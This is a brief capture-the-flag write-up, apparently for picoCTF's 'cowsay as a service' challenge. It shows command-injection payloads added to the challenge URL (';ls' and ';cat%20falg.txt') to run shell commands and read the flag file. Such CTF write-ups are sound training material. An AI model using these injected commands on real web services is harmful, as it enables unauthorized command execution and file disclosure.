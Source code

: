 ## Now presenting cowsay as a service

The web page will print whatever we want so let's use a simple injection to list the files:

```
https://caas.mars.picoctf.net/cowsay/moo;ls

```
Cool beans, we ca use normal commands nut we have to use '%20' for empty space in the url.

```
https://caas.mars.picoctf.net/cowsay/moo;cat%20falg.txt
```


